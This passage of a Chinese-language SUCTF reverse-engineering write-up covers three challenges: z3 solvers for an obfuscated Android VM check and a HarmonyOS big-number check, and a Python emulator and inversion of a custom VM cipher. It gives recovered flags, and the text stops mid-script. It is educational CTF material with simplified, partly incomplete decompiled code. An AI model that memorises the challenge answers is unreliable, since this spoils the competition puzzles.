def sub_A224(a1, a2, a3, a4):
    return a1 + a3 + a4 + a2


def sub_A264(a1, a2, a3, a4, a5):
    return ((a1 + a3 + a4) ^ a5) + a2


def sub_A2B0(a1, a2, a3, a4):
    return a1 + a3 + a4 + a2


def sub_A2F0(a1, a2, a3, a4, a5):
    return a1 + a3 + a4 + a5 + a2


def sub_A33C(a1, a2, a3):
    return (a1 ^ a3) + a2


def sub_A370(a1, a2, a3, a4, a5):
    return ((a1 + a3 + a4) ^ a5) + a2


def sub_A3BC(a1, a2, a3, a4):
    return (a1 ^ (a3 + a4)) + a2


def sub_A3FC(a1, a2, a3, a4):
    return (a1 ^ (a3 + a4)) + a2


def sub_A43C(a1, a2, a3, a4):
    return (a1 ^ a3 ^ a4) + a2


def sub_A47C(a1, a2, a3):
    return (a1 ^ a3) + a2


def sub_A4B0(a1, a2, a3):
    return (a1 ^ a3) + a2


def sub_A4E4(a1, a2, a3, a4):
    return a1 + a3 + a4 + a2


def sub_A524(a1, a2, a3, a4):
    return a1 + a3 + a4 + a2


def sub_A564(a1, a2, a3, a4):
    return ((a1 + a3) ^ a4) + a2


def sub_A5A4(a1, a2, a3):
    return (a1 ^ a3) + a2


def sub_A5D8(a1, a2, a3, a4):
    return a1 + a3 + a4 + a2


def sub_A618(a1, a2, a3):
    return a1 + a3 + a2


def sub_A64C(a1, a2, a3):
    return a1 + a3 + a2


def sub_A680(a1, a2, a3, a4, a5):
    return (a1 ^ a3 ^ (a4 + a5)) + a2

#省略大量函数


np.seterr(over='ignore')

ii = 0
jj = 0
sbox = [
    0xd4, 0x72, 0xab, 0x2a, 0x46, 0x5f, 0xf8, 0xc3, 0x96, 0xd6, 0x32, 0xd7, 0x3d, 0x69, 0xd9, 0x64, 0xe1, 0x65, 0x41, 0x24, 0x03, 0xd8, 0x5c, 0xec, 0x7c, 0x73, 0xc4, 0x43, 0x8d, 0x26, 0x68, 0xdc, 0x3f, 0x2c, 0xe5, 0x39, 0x6b, 0x4d, 0x21, 0xf4, 0x4e, 0x85, 0xdd, 0x13, 0x8e, 0xb4, 0x3a, 0x11, 0xd0, 0xf9, 0xf3, 0x9e, 0xd1, 0x5d, 0x37, 0x61, 0x95, 0xea, 0x5b, 0x99, 0x9c, 0xb3, 0x07, 0x2e, 0x04, 0x0f, 0x89, 0x57, 0x5a, 0xa7, 0x4f, 0x82, 0x76, 0xa0, 0xe6, 0x63, 0xf1, 0x15, 0x3e, 0x1b, 0xfd, 0xc7, 0xa8, 0x31, 0x6a, 0xc6, 0x8b, 0xd5, 0x59, 0x6d, 0xe9, 0x87, 0x74, 0x05, 0x1e, 0xb1, 0x97, 0x0a, 0xce, 0x52, 0xb9, 0x8f, 0xe7, 0xac, 0x08, 0xa6, 0x16, 0xc2, 0xf2, 0x42, 0x9a, 0xfa, 0xe2, 0x86, 0x53, 0xff, 0x55, 0x23, 0x71, 0xb6, 0x44, 0xbd, 0x8a, 0xb2, 0x28, 0x54, 0xc8, 0xf0, 0x7a, 0x90, 0xa4, 0x7d, 0xd3, 0xdb, 0x1a, 0x22, 0x20, 0xb5, 0x83, 0xb0, 0xa1, 0xa5, 0x84, 0xb7, 0x06, 0x70, 0xaa, 0xbc, 0xda, 0x4b, 0x34, 0x67, 0xd2, 0x60, 0x00, 0xc5, 0x0d, 0x56, 0xa3, 0x98, 0x2d, 0x7f, 0x1d, 0x3b, 0xaf, 0xe3, 0x7b, 0x93, 0x7e, 0x6f, 0x6c, 0xa9, 0x36, 0xde, 0xbe, 0xc9, 0x02, 0x48, 0x8c, 0xe8, 0xfe, 0x62, 0x3c, 0xca, 0x33, 0xfc, 0xdf, 0xee, 0x40, 0xf5, 0xcb, 0x47, 0x79, 0x0b, 0x2b, 0x29, 0x94, 0xcd, 0xba, 0x51, 0xae, 0x58, 0x12, 0x14, 0x88, 0xeb, 0x9b, 0x77, 0x1c, 0x27, 0xe0, 0x4c, 0x38, 0x91, 0x49, 0xcc, 0xa2, 0xc1, 0x25, 0xcf, 0xf7, 0x9d, 0x2f, 0xc0, 0x45, 0x17, 0x35, 0x92, 0x9f, 0x4a, 0x78, 0x66, 0xf6, 0x5e, 0xfb, 0xbb, 0x10, 0x81, 0x01, 0x0e, 0x6e, 0x09, 0xb8, 0x18, 0x50, 0xad, 0xe4, 0x30, 0x80, 0x75, 0xef, 0xed, 0x19, 0xbf, 0x0c, 0x1f
]  # fmt: skip


def calc_idx():
    global ii, jj
    ii = (ii + 1) % 256
    jj = (jj + sbox[ii]) % 256
    return (sbox[ii] + sbox[jj]) % 256


if __name__ == "__main__":
    s = Solver()

    inputs = [BitVec("v%d" % i, 32) for i in range(32 - len("SUCTF{}"))]
    myinput = [BitVecVal(ord(i), 32) for i in "SUCTF{"] + inputs + [BitVecVal(ord("}"), 32)]

    print(myinput)

    for i in range(32 * 8):
        val1 = calc_idx()
        val2 = calc_idx()
        val3 = calc_idx()
        val4 = calc_idx() % 32
        val5 = calc_idx() % 32
        idx = int(calc_idx())

        cur_func = eval(("sub_") + hex(opcode_list[idx * 2])[2:].upper())
        source_code = inspect.getsource(cur_func)
        return_line = [
            line.strip() for line in source_code.split("\n") if "return" in line
        ]
        rrr = opcode_list[idx * 2 + 1]
        if rrr == 1:
            val = cur_func(val1, myinput[val4], myinput[val5])
            myinput[val4] = val
        elif rrr == 2:
            val = cur_func(val1, val2, myinput[val4], myinput[val5])
            myinput[val4] = val
        elif rrr == 3:
            val = cur_func(val1, val2, val3, myinput[val4], myinput[val5])
            myinput[val4] = val
        else:
            assert False

    bit_cipher = [BitVecVal(i, 32) for i in cipher]

    for i in range(32):
        s.add(myinput[i] == bit_cipher[i])

    start = time.time()

    if s.check() == sat:
        print("sat")
    else:
        print("unsat")
        exit()

    print(time.time() - start)

    m = s.model()
    values = [m.eval(i).as_long() % 256 for i in inputs]
    print(''.join([chr(i) for i in values]))
```

得到flag

```Python
[83, 85, 67, 84, 70, 123, v0, v1, v2, v3, v4, v5, v6, v7, v8, v9, v10, v11, v12, v13, v14, v15, v16, v17, v18, v19, v20, v21, v22, v23, v24, 125]
sat
3.966740608215332
Y0u_Ar3_Andr0id_M4st3r!!!
```

## 1.5 SU_Harmony

主要check逻辑在libentry.so中，忽略垃圾代码，手动提取出关键部分：

```C
check_3750(){
    memset(s, 0, 0x10uLL);
    memset(v180, 0, sizeof(v180));
    napi_get_cb_info(a1, a2, &v178, s, 0LL);
    napi_typeof(a1, s[0], v176);
    memset(v179, 0, sizeof(v179));
    value_string_utf8 = napi_get_value_string_utf8(a1, s[0], v179, 256LL, &v175);
    if ( !value_string_utf8 ){
        OH_LOG_Print(0LL, 4LL, 12800LL, "Native Log", "input error");
    napi_create_string_utf8(a1, "error", 5LL, &v177);
    }
    OH_LOG_Print(0LL, 4LL, 12800LL, "Native Log", "Your input : %{public}s \nlen:%{public}d", v179, v175);
    if ( v175 != 32 ){
        OH_LOG_Print(0LL, 4LL, 12800LL, "Native Log", "input length error");
        napi_create_string_utf8(a1, "error", 5LL, &v177);
    }
    for ( j = 0; j < 8; ++j )
    {
        v180[j] = v179[j];
        LODWORD(v3) = v180[j];
        OH_LOG_Print(0LL, 4LL, 12800LL, "Native Log", "input2uintArray[%{public}d] = %{public}x", (unsigned int)j, v3);
    }
    for ( m = 0; m < 8; ++m )
    {
        if ( (unsigned int)sub_57B0(v180[m], &arr[(__int64)m]) )
            napi_create_string_utf8(a1, "error", 5LL, &v177);
    }
    napi_create_string_utf8(a1, "right", 5LL, &v177);
    return;
}
sub_57B0(unsigned int a1, const char *a2)
{
    memset(s, 0, 0x1388uLL);
    memset(v62, 0, 0x1388uLL);
    memset(v61, 0, 0x1388uLL);
    memset(v60, 0, 0x1388uLL);
    memset(s1, 0, 0x1388uLL);
    sub_62F0(a1, v64);
    sub_6D20(v64, v64, s);
    sub_8270(v64, 2, v62);
    sub_9890(s, v62, v61);
    sub_A8F0(v61, "3", v60);
    sub_C160(v60, s1);
    if ( !strcmp(s1, a2) ){
        return 1;
    }
    return 0;
}
sub_CC10(const char *a1){
    v20 = strlen(a1);
    for ( j = 0; j < v20 / 2; ++j )
    {
        v17 = a1[j];
        a1[j] = a1[v20 - 1 - j];
        a1[v20 - 1 - j] = v17;
    }
    return;
}
sub_62F0(unsigned int a1, char *a2){
    is_a1 = a1;
    data1 = 0;
    if ( a1 ) data1 = 1;
    while ( 1 )
    {
        if ( !is_a1 ) break;
        v3 = data1++;
        a2[v3] = is_a1 % 0xA + 48;
        is_a1 /= 0xAu;
    }
    a2[data1] = 0;
    return sub_CC10(a2);
}
sub_6D20(const char *a1, const char *a2, char *a3){
    v109 = strlen(a1);
    v108 = strlen(a2);
    v107 = v108 + v109;
    memset(v124, 0, 0x4E20uLL);
    for ( j = v109 - 1; j >= 0; --j )
    {
        for ( k = 0; ; ++k )
        {
            for ( m = v108 - 1; m >= 0; --m )
            {
                v102 = m + j + 1;
                v101 = v124[v102] + (a2[m] - 48) * (a1[j] - 48);
                v124[v102] = v101 % 10;
                v124[m + j] += v101 / 10;
            }
        }
    }
    if (v124[n] == 0)
        goto LABEL_53;
    if ( n == v107 )
        goto LABEL_53;
    strcpy(a3, "0");
    LABEL_53:
    while ( n < v107 )
    {
      src = v124[n] + 48;
      strncat(a3, &src, 1uLL);
      ++n;
    }
}
sub_8270(const char *a1, int a2, char *a3){
    strcpy(a3, "0");
    memset(s, 0, sizeof(s));
    strcpy(s, a1);
    sub_CC10(s);
    v111 = 0;
    *a3 = 0;
    for ( j = 0; j < strlen(s); ++j )
    {
        v108 = v111 + a2 * (s[j] - 48);
        v111 = v108 / 10;
        v126 = v108 % 10 + 48;
        strncat(a3, &v126, 1uLL);
    }
    if (v111){
        v125 = v111 + 48;
        strncat(a3, &v125, 1uLL);
    }
    sub_CC10(a3);
    if ( a3[k] == 48  && k < strlen(a3)) return;
    if ( k <= 0 ) return;
    v3 = strlen(a3);
    memmove(a3, &a3[k], v3 - k + 1);
    return;
}
sub_9890(const char *a1, const char *a2, char *a3){
    memset(s, 0, sizeof(s));
    memset(dest, 0, 0x1388uLL);
    strcpy(s, a1);
    strcpy(dest, a2);
    sub_CC10(s);
    sub_CC10(dest);
    v82 = strlen(s);
    v81 = strlen(dest);
    if ( v82 <= v81 )
    v75 = v81;
    else
    v75 = v82;
    for ( j = 0; j < v75; ++j )
    {
        if ( j >= v82 )
            v59 = 0;
        else
            v59 = s[j] - 48;
        if ( j >= v81 )
            v58 = 0;
        else
            v58 = dest[j] - 48;
        v77 = v80 + v58 + v59;
        v80 = v77 / 10;
        v93 = v77 % 10 + 48;
        strncat(a3, &v93, 1uLL);
    }
    v92 = v80 + 48;
    strncat(a3, &v92, 1uLL);
    sub_CC10(a3);
    if ( k <= 0 )
        return;
    v3 = strlen(a3);
    memmove(a3, &a3[k], v3 - k + 1);
    return;
}
sub_A8F0(const char *a1, const char *a2, char *a3){
    memset(s, 0, sizeof(s));
    memset(dest, 0, 0x1388uLL);
    strcpy(s, a1);
    strcpy(dest, a2);
    sub_CC10(s);
    sub_CC10(dest);
    v120 = strlen(s);
    v119 = strlen(dest);
    for ( j = 0; j < len_s; ++j )
    {
        if ( j >= len_dest )
            v99 = 0;
        else
            v99 = dest[j] - 48;
        v115 = s[j] - 48 - v99 - v118;
        if ( v115 >= 0 ){
            LOBYTE(v115) = v115 + 10;
            v118 = 1;
        }
        v132 = arg1 + 48;
        strncat(a3, &v132, 1uLL);
    }
    while ( 1 )
    {
        v19 = 0;
        if ( strlen(a3) > 1 )
            v19 = a3[strlen(a3) - 1] == 48;
        if (v19) break;
        a3[strlen(a3) - 1] = 0;
    }
    sub_CC10(a3);
    return;
}
sub_C160(const char *a1, char *a2){
    v60 = strlen(a1);
    for ( j = 0; j < v60; ++j ) {
        about_a1 = a1[j] - '0' + 10 * v59;
        v59 = about_a1 % 2;
        src = about_a1 / 2 + 48;
        strncat(a2, &src, 1uLL);
    }
    if ( strlen(a2) )
        strcpy(a2, "0");
    return;
}
```

- sub_CC10：工具函数，逆转数字字符串；
- sub_62F0：itoa，uint转字符串；
- sub_6D20：字符串*字符串；
- sub_8270：字符串*数字；
- sub_9890：字符串+字符串；
- sub_A8F0：字符串-字符串；
- sub_C160：字符串的值**整除**2。

sub_57B0的check整理一下就是：


最后解8个方程，方程为

  

用z3解：

```Python
from z3 import *

dst = [999272289930604998, 1332475531266467542, 1074388003071116830, 1419324015697459326, 978270870200633520, 369789474534896558, 344214162681978048, 2213954953857181622]
flag = b''
solver = Solver()
x = [Int(f"x{i}") for i in range(8)]
for i in range(8):
    solver.add(x[i] > 0)
    expr = (x[i]**2 + 2*x[i] - 3) / 2 - dst[i] # 整除
    solver.add(0 <= expr)
    solver.add(expr < 1)
if solver.check() == sat:
    m = solver.model()
    ans = [m[x[i]].as_long() for i in range(8)]
    flag = b''.join([y.to_bytes(4, 'little') for y in ans])
print(flag)
# b'SUCTF{Ma7h_WorldIs_S0_B3aut1ful}'
```

## 1.6 SU_vm_master

跳表虚拟机，共349个term，从第0x14F个term开始，默认每次向后执行1条，被赋值0xDEADBEEF时停止

```Python
Term:
0x00, 8 bytes: void *info_rel (*func-0x10)
0x08, 8 bytes: int v1
0x10, 8 bytes: int v2
...
```


term的地址是0x5559C82C5040，

有1块0x4000大小指针数据HT：0x5559C82C5B28，32字节flag在+0x800，

有1块34*8大小的存储空间S0: 0x5559C82C5B40，

S0[30]: 0xDEADBEEF，大概是返回地址寄存器

S0[31]: 0x3FF8

S0[32]: PC

S0[33]: 0x10，大概是状态寄存器

经过term的运算，+0x800的flag被加密，最后比较结果

根据info_rel的地址，可分为14种操作，v1 ~ v4是term的参数

```Python
0x9988: v1 == 0: S0[v3] -> S0[v2], else v3 -> S0[v2]
0x99b0: S0[v2] <- HT + S0[v3] + v4, v1是读取字节数(1, 4, 8)
0x99d8: S0[v2] -> HT + S0[v3] + v4, v1是写入字节数(1, 4, 8)
0x9a00: v1 == 0: cmp S0[var3] and S0[var2], <: S0[33] = 0, eq: S0[33] = 1, >: S0[33] = 2, else cmp var3 and S0[var2]
0x9a28: if, 根据var2和S0[33]决定是否跳转到var1(var1 -> S0[32])
0x9a50: S0[32] -> S0[30]; var1 -> S0[32], jmp to var1
0x9a78: S0[32] <- S0[30], jmp to S0[30] or stop
0x9aa0: v1 == 0: S0[v3] + S0[v4] -> S0[v2], else S0[v3] + v4 -> S0[v2]
0x9ad0: v1 == 0: S0[v3] - S0[v4] -> S0[v2], else S0[v3] - v4 -> S0[v2]
0x9b00: v1 == 0: S0[v3] & S0[v4] -> S0[v2], else S0[v3] & v4 -> S0[v2]
0x9b30: v1 == 0: S0[v3] | S0[v4] -> S0[v2], else S0[v3] | v4 -> S0[v2]
0x9b60: v1 == 0: S0[v3] ^ S0[v4] -> S0[v2], else S0[v3] ^ v4 -> S0[v2]
0x9b90: v1 == 0: S0[v3] << (S0[v4] & 0xFF) -> S0[v2], else S0[v3] << (v4 & 0xFF) -> S0[v2]
0x9bc0: v1 == 0: S0[v3] >> (S0[v4] & 0xFF) -> S0[v2], else S0[v3] >> (v4 & 0xFF) -> S0[v2]
```

把虚拟机写成python：

```Python
from vm_data import *
flag = "0123456789abcdefghijklmnopqrstuv"
S0 = [0 for _ in range(34)]
S0[30] = 0xDEADBEEF
S0[31] = 0x3FF8
S0[32] = 0x14F
while len(HT) < 0x4000:
    HT.append(0)

for i in range(len(flag)):
    HT[i + 0x800] = ord(flag[i])

while S0[32] != 0xDEADBEEF:
    term = a_list[S0[32]]
    S0[32] += 1
    if term.info == 0x9988:
        S0[term.vars[2]] = S0[term.vars[3]] if term.vars[1] == 0 else term.vars[3]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = {hex(term.vars[3])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x99b0:
        pos = S0[term.vars[3]] + term.vars[4]
        if term.vars[1] == 1:
            S0[term.vars[2]] = HT[pos]
        elif term.vars[1] == 4:
            S0[term.vars[2]] = (HT[pos + 3] << 24) + (HT[pos + 2] << 16) + (HT[pos + 1] << 8) + HT[pos]
        else:
            S0[term.vars[2]] = (HT[pos + 7] << 56) + (HT[pos + 6] << 48) + (HT[pos + 5] << 40) + (HT[pos + 4] << 32) + (HT[pos + 3] << 24) + (HT[pos + 2] << 16) + (HT[pos + 1] << 8) + HT[pos]
        print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] <--{term.vars[1]}-- HT[S0[{term.vars[3]}] + {hex(term.vars[4])}] # {hex(S0[term.vars[2]])} at {hex(S0[term.vars[3]] + term.vars[4])}")
        continue
    if term.info == 0x99d8:
        pos = S0[term.vars[3]] + term.vars[4]
        if term.vars[1] == 1:
            HT[pos] = S0[term.vars[2]] & 0xFF
        elif term.vars[1] == 4:
            HT[pos] = S0[term.vars[2]] & 0xFF
            HT[pos + 1] = (S0[term.vars[2]] >> 8) & 0xFF
            HT[pos + 2] = (S0[term.vars[2]] >> 16) & 0xFF
            HT[pos + 3] = (S0[term.vars[2]] >> 24) & 0xFF
        else:
            HT[pos] = S0[term.vars[2]] & 0xFF
            HT[pos + 1] = (S0[term.vars[2]] >> 8) & 0xFF
            HT[pos + 2] = (S0[term.vars[2]] >> 16) & 0xFF
            HT[pos + 3] = (S0[term.vars[2]] >> 24) & 0xFF
            HT[pos + 4] = (S0[term.vars[2]] >> 32) & 0xFF
            HT[pos + 5] = (S0[term.vars[2]] >> 40) & 0xFF
            HT[pos + 6] = (S0[term.vars[2]] >> 48) & 0xFF
            HT[pos + 7] = (S0[term.vars[2]] >> 56) & 0xFF
        print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] --{term.vars[1]}--> HT[S0[{term.vars[3]}] + {hex(term.vars[4])}] # {hex(S0[term.vars[2]])} at {hex(S0[term.vars[3]] + term.vars[4])}")
        continue
    if term.info == 0x9a00:
        if term.vars[1] == 0:
            if S0[term.vars[3]] > S0[term.vars[2]]:
                S0[33] = 2
            elif S0[term.vars[3]] < S0[term.vars[2]]:
                S0[33] = 0
            else:
                S0[33] = 1
            print(f"{str(S0[32] - 1).zfill(3)}: cmp S0[{term.vars[3]}], S0[{term.vars[2]}]")
        else:
            if term.vars[3] > S0[term.vars[2]]:
                S0[33] = 2
            elif term.vars[3] < S0[term.vars[2]]:
                S0[33] = 0
            else:
                S0[33] = 1
            print(f"{str(S0[32] - 1).zfill(3)}: cmp {hex(term.vars[3])}, S0[{term.vars[2]}]")
        continue
    if term.info == 0x9a28:
        print(f"{str(S0[32] - 1).zfill(3)}: goto {term.vars[1]} as {term.vars[2]}")
        if term.vars[2] == 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 1 and S0[33] & 1 != 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 2 and S0[33] & 1 == 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 3 and S0[33] & 2 != 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 4 and S0[33] & 3 != 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 5 and S0[33] & 3 == 0:
            S0[32] = term.vars[1]
        if term.vars[2] == 6 and (S0[33] & 3 == 0 or S0[33] & 1 != 0):
            S0[32] = term.vars[1]
        continue
    if term.info == 0x9a50:
        print(f"{str(S0[32] - 1).zfill(3)}: goto {term.vars[1]}, S[30] = {hex(S0[32])}")
        S0[30] = S0[32]
        S0[32] = term.vars[1]
        continue
    if term.info == 0x9a78:
        print(f"{str(S0[32] - 1).zfill(3)}: goto S0[30] # {S0[30]}")
        S0[32] = S0[30]
        continue
    if term.info == 0x9aa0:
        S0[term.vars[2]] = S0[term.vars[3]] + S0[term.vars[4]] if term.vars[1] == 0 else S0[term.vars[3]] + term.vars[4]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] + S0[{term.vars[4]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] + {hex(term.vars[4])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9ad0:
        S0[term.vars[2]] = S0[term.vars[3]] - S0[term.vars[4]] if term.vars[1] == 0 else S0[term.vars[3]] - term.vars[4]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] - S0[{term.vars[4]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] - {hex(term.vars[4])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9b00:
        S0[term.vars[2]] = S0[term.vars[3]] & S0[term.vars[4]] if term.vars[1] == 0 else S0[term.vars[3]] & term.vars[4]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] & S0[{term.vars[4]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] & {hex(term.vars[4])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9b30:
        S0[term.vars[2]] = S0[term.vars[3]] | S0[term.vars[4]] if term.vars[1] == 0 else S0[term.vars[3]] | term.vars[4]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] | S0[{term.vars[4]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] | {hex(term.vars[4])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9b60:
        S0[term.vars[2]] = S0[term.vars[3]] ^ S0[term.vars[4]] if term.vars[1] == 0 else S0[term.vars[3]] ^ term.vars[4]
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] ^ S0[{term.vars[4]}] # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] ^ {hex(term.vars[4])} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9b90:
        S0[term.vars[2]] = S0[term.vars[3]] << (S0[term.vars[4]] & 0xFF) if term.vars[1] == 0 else S0[term.vars[3]] << (term.vars[4] & 0xFF)
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] << (S0[{term.vars[4]}] & 0xFF) # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] << {hex(term.vars[4] & 0xFF)} # {hex(S0[term.vars[2]])}")
        continue
    if term.info == 0x9bc0:
        S0[term.vars[2]] = S0[term.vars[3]] >> (S0[term.vars[4]] & 0xFF) if term.vars[1] == 0 else S0[term.vars[3]] >> (term.vars[4] & 0xFF)
        if term.vars[1] == 0:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] >> (S0[{term.vars[4]}] & 0xFF) # {hex(S0[term.vars[2]])}")
        else:
            print(f"{str(S0[32] - 1).zfill(3)}: S0[{term.vars[2]}] = S0[{term.vars[3]}] >> {hex(term.vars[4] & 0xFF)} # {hex(S0[term.vars[2]])}")
        continue
```

分析输出记录得到加密过程：

```Python
inp = "b2ed053c767f41709dc1605c8c346c69"
res = []
rec = [0 for _ in range(36)]
term_a = [115, 111, 109, 101, 116, 104, 105, 110, 103, 110, 111, 116, 103, 111, 111, 100]
term_b = [3626647808, 141548444, 1416797923, 1680674833, 2536566623, 3093038673, 3129809933, 139059741, 3377330864, 636462370, 1522592528, 1271917479, 1099980626, 1551681038, 663607238, 2587165715, 3607804456, 3155505154, 3252823047, 3629567309, 3512053615, 3971746387, 4095585037, 1664280388, 1488473323, 3152806980, 2033791619, 621365646, 1558801520, 3573911144, 2901723555, 145287486]
term_c = [214, 144, 233, 254, 204, 225, 61, 183, 22, 182, 20, 194, 40, 251, 44, 5, 43, 103, 154, 118, 42, 190, 4, 195, 170, 68, 19, 38, 73, 134, 6, 153, 156, 66, 80, 244, 145, 239, 152, 122, 51, 84, 11, 67, 237, 207, 172, 98, 228, 179, 28, 169, 201, 8, 232, 149, 128, 223, 148, 250, 117, 143, 63, 166, 71, 7, 167, 252, 243, 115, 23, 186, 131, 89, 60, 25, 230, 133, 79, 168, 104, 107, 129, 178, 113, 100, 218, 139, 248, 235, 15, 75, 112, 86, 157, 53, 30, 36, 14, 94, 99, 88, 209, 162, 37, 34, 124, 59, 1, 33, 120, 135, 212, 0, 70, 87, 159, 211, 39, 82, 76, 54, 2, 231, 160, 196, 200, 158, 234, 191, 138, 210, 64, 199, 56, 181, 163, 247, 242, 206, 249, 97, 21, 161, 224, 174, 93, 164, 155, 52, 26, 85, 173, 147, 50, 48, 245, 140, 177, 227, 29, 246, 226, 46, 130, 102, 202, 96, 192, 41, 35, 171, 13, 83, 78, 111, 213, 219, 55, 69, 222, 253, 142, 47, 3, 255, 106, 114, 109, 108, 91, 81, 141, 27, 175, 146, 187, 221, 188, 127, 17, 217, 92, 65, 31, 16, 90, 216, 10, 193, 49, 136, 165, 205, 123, 189, 45, 116, 208, 18, 184, 229, 180, 176, 137, 105, 151, 74, 12, 150, 119, 126, 101, 185, 241, 9, 197, 110, 198, 132, 24, 240, 125, 236, 58, 220, 77, 32, 121, 238, 95, 62, 215, 203, 57, 72]
for k in range(2):
    inp_sub = [ord(inp[k * 16 + x]) ^ term_a[x] for x in range(16)]
    for i in range(4):
        rec[i] = (inp_sub[i * 4 + 3] << 24) | (inp_sub[i * 4] << 16) | (inp_sub[i * 4 + 1] << 8) | inp_sub[i * 4 + 2]
    for i in range(32):
        R0 = rec[i + 1] ^ rec[i + 2] ^ rec[i + 3] ^ term_b[i]
        R6 = (term_c[(R0 >> 24) & 0xFF] << 24) | (term_c[(R0 >> 16) & 0xFF] << 16) | (term_c[(R0 >> 8) & 0xFF] << 8) | term_c[R0 & 0xFF]
        R19 = R6 ^ ((R6 << 0x2) | (R6 >> 0x1E)) ^ ((R6 << 0xA) | (R6 >> 0x16)) ^ ((R6 << 0x12) | (R6 >> 0xE)) ^ ((R6 << 0x18) | (R6 >> 0x8))
        rec[i + 4] = (R19 ^ rec[i] ^ 0xDEADBEEF) & 0xFFFFFFFF
    res += [(rec[35] >> 16) & 0xFF, (rec[35] >> 8) & 0xFF, rec[35] & 0xFF, (rec[35] >> 24) & 0xFF, (rec[34] >> 16) & 0xFF, (rec[34] >> 8) & 0xFF, rec[34] & 0xFF, (rec[34] >> 24) & 0xFF, (rec[33] >> 16) & 0xFF, (rec[33] >> 8) & 0xFF, rec[33] & 0xFF, (rec[33] >> 24) & 0xFF, (rec[32] >> 16) & 0xFF, (rec[32] >> 8) & 0xFF, rec[32] & 0xFF, (rec[32] >> 24) & 0xFF]
    term_a = res[(k * 16):((k + 1) * 16)]

print("".join([hex(x)[2:].zfill(2) for x in res]))
```

直接逆运算：

```Python
res = [0xF0, 0xA8, 0xBC, 0x50, 0xD9, 0x3A, 0xF7, 0xCE, 0x49, 0x28, 0xEA, 0x77, 0x33, 0xB4, 0x17, 0xB0, 0x8E, 0xB9, 0xA5, 0xAD, 0xD2, 0x72, 0xDE, 0x2F, 0x46, 0x72, 0xF2, 0x4C, 0x6D, 0x41, 0x34, 0x38]
inp = []
rec = [0 for _ in range(36)]
term_b = [3626647808, 141548444, 1416797923, 1680674833, 2536566623, 3093038673, 3129809933, 139059741, 3377330864, 636462370, 1522592528, 1271917479, 1099980626, 1551681038, 663607238, 2587165715, 3607804456, 3155505154, 3252823047, 3629567309, 3512053615, 3971746387, 4095585037, 1664280388, 1488473323, 3152806980, 2033791619, 621365646, 1558801520, 3573911144, 2901723555, 145287486]
term_c = [214, 144, 233, 254, 204, 225, 61, 183, 22, 182, 20, 194, 40, 251, 44, 5, 43, 103, 154, 118, 42, 190, 4, 195, 170, 68, 19, 38, 73, 134, 6, 153, 156, 66, 80, 244, 145, 239, 152, 122, 51, 84, 11, 67, 237, 207, 172, 98, 228, 179, 28, 169, 201, 8, 232, 149, 128, 223, 148, 250, 117, 143, 63, 166, 71, 7, 167, 252, 243, 115, 23, 186, 131, 89, 60, 25, 230, 133, 79, 168, 104, 107, 129, 178, 113, 100, 218, 139, 248, 235, 15, 75, 112, 86, 157, 53, 30, 36, 14, 94, 99, 88, 209, 162, 37, 34, 124, 59, 1, 33, 120, 135, 212, 0, 70, 87, 159, 211, 39, 82, 76, 54, 2, 231, 160, 196, 200, 158, 234, 191, 138, 210, 64, 199, 56, 181, 163, 247, 242, 206, 249, 97, 21, 161, 224, 174, 93, 164, 155, 52, 26, 85, 173, 147, 50, 48, 245, 140, 177, 227, 29, 246, 226, 46, 130, 102, 202, 96, 192, 41, 35, 171, 13, 83, 78, 111, 213, 219, 55, 69, 222, 253, 142, 47, 3, 255, 106, 114, 109, 108, 91, 81, 141, 27, 175, 146, 187, 221, 188, 127, 17, 217, 92, 65, 31, 16, 90, 216, 10, 193, 49, 136, 165, 205, 123, 189, 45, 116, 208, 18, 184, 229, 180, 176, 137, 105, 151, 74, 12, 150, 119, 126, 101, 185, 241, 9, 197, 110, 198, 132, 24, 240, 125, 236, 58, 220, 77, 32, 121, 238, 95, 62, 215, 203, 57, 72]
for k in [1, 0]:
